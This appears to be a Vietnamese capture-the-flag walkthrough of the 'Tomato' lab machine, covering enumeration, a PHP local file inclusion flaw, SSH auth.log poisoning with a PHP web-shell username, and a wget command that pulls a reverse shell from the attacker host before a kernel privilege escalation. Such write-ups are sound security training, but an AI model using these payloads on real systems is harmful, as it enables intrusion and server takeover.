

# Tomato
***
Tìm được địa chỉ của victim: `192.168.132.147`

Dò quét với nmap

Truy cập vào cổng 8888 ta thấy một Nginx server được bảo vệ tài khoản mật khẩu

Ở đây, Ta đã sử dụng dirsearch với từ điển "common.txt".Ta đã tìm thấy thư mục “/antibot_image/“.

Ta đi kiểm tra thư mục này

Khi kiểm tra các tập tin, Ta tìm thấy một “info.php“, bên cạnh việc hiển thị cho chúng tôi thông tin hệ thống, phiên bản, v.v. Nó còn bao gồm một món quà bên trong. (Có thể đây là phần phức tạp nhất của chiếc hộp).

`</?php include $_GET['image']; ?>` gợi ý cho chúng ta về lỗ hổng Local File Inclusion (LFI)
Ta tiến hành kiểm thử với payload sau

Với LFI trong tay, ta lần lượt tìm đọc nội dung các file quan trọng và phát hiện auth.log có thể đọc được thông qua lỗ hổng này

```
"auth.log" là file lưu trữ nhật ký truy cập hệ thống. Khi chúng ta đăng nhập thông qua giao diện chính hay qua SSH thì các thông tin đều được lưu trữ tại đây kể cả thành công hay thất bại . Ví dụ như khi chúng ta đăng nhập vào Server thông qua SSH với nội dung ssh 1234@192.168.132.147 và nhập mật khẩu sai nhiều lần, thì nội dung auth.log sẽ ghi nhận :
pam_unix(cron:session): session opened for user root by (uid=0) Jan 16 09:00:01 ubuntu CRON[15022]: pam_unix(cron:session): session closed for user root Jan 16 09:01:03 ubuntu sshd[15027]: Invalid user 1234 from 192.168.132.145 Jan 16 09:01:03 ubuntu sshd[15027]: input_userauth_request: invalid user 1234 [preauth] Jan 16 09:01:05 ubuntu sshd[15027]: pam_unix(sshd:auth): check pass; user unknown Jan 16 09:01:05 ubuntu sshd[15027]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.132.145 Jan 16 09:01:07 ubuntu sshd[15027]: Failed password for invalid user 1234 from 192.168.132.145 port 33934 ssh2 Jan 16 09:01:12 ubuntu sshd[15027]: pam_unix(sshd:auth): check pass; user unknown Jan 16 09:01:14 ubuntu sshd[15027]: Failed password for invalid user 1234 from 192.168.132.145 port 33934 ssh2 Jan 16 09:01:20 ubuntu sshd[15027]: Failed password for invalid user 1234 from 192.168.132.145 port 33934 ssh2 Jan 16 09:01:20 ubuntu sshd[15027]: 

Như vậy phương pháp của ta đơn giản chỉ cần thay user 1234 kia thành payload tùy ý, từ đó hoàn toàn có thể kiểm soát server.
```
```sh 
ssh '<?php system($_GET["cmd"]);?>'@192.168.132.147 -p 2211
#
http://192.168.132.147/antibot_image/antibots/info.php?image=/var/log/auth.log&cmd=id
```
Ta có thể thực thi lệnh thông qua tham số cmd, bây giờ ta sẽ chèn một reverse shell để kết nối đến máy attacker

Sử dụng SimpleHTTPServer để build một web-server đơn giản trên máy attacker và Download shell về tomato sau đó thực thi shell
```sh
http://192.168.132.147/antibot_image/antibots/info.php?image=/var/log/auth.log&cmd=wget http://192.168.132.145:8081/reverse-shell.php -o /tmp/reverse-shell.php
```


Phiên bản kernel tồn tại lỗi cho phép leo thang đặc quyền
Thực hiện download và biên dịch trên tomato

Do trên máy tomato không có gcc nên thông báo lỗi 
Sau một hồi tìm kiếm thì thấy gcc-5

Tiến thành leo thang đặc quyền

***
## ROOTED


